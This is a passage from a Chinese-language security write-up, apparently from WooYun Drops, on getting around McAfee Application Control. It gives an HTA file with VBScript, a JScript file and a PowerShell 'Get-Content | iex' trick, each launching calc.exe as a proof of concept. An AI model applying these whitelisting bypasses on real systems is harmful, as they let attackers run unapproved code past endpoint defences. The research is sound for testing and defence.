     
    
    #!html
    <HTML> 
    <HEAD> 
    <script language="VBScript">
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
    </script>
    <HTA:APPLICATION ID="test"
    WINDOWSTATE = "minimize">
    
    </HEAD> 
    <BODY> 
    </BODY> 
    </HTML> 
    

保存为vbs.hta,执行如图

![p13](http://static.wooyun.org//drops/20151127/2015112704462343450p132.png)

### 2.执行jscript

jscript未被McAfee Application Control限制，因此可以被利用

如下代码保存为calc.js

    
    
    #!js
    var objShell = new ActiveXObject("WScript.shell");
    objShell.run('calc.exe');
    

执行成功，如图

![p14](http://static.wooyun.org//drops/20151127/2015112704462498725p142.png)

### 3.执行powershell

如果可以执行powershell代码，还担心绕不过McAfee Application Control吗？

当然，默认是肯定无法执行的，如图

![p15](http://static.wooyun.org//drops/20151127/2015112704462667896p151.png)

**方法1：**

将ps1文件内容保存为script.txt，然后进入Powershell环境执行如下代码：

    
    
    Get-Content script.txt | iex
    

但是如果txt中含有函数，会产生如下错误，需要更改脚本内容，错误如图

![p16](http://static.wooyun.org//drops/20151127/2015112704462742985p161.png)

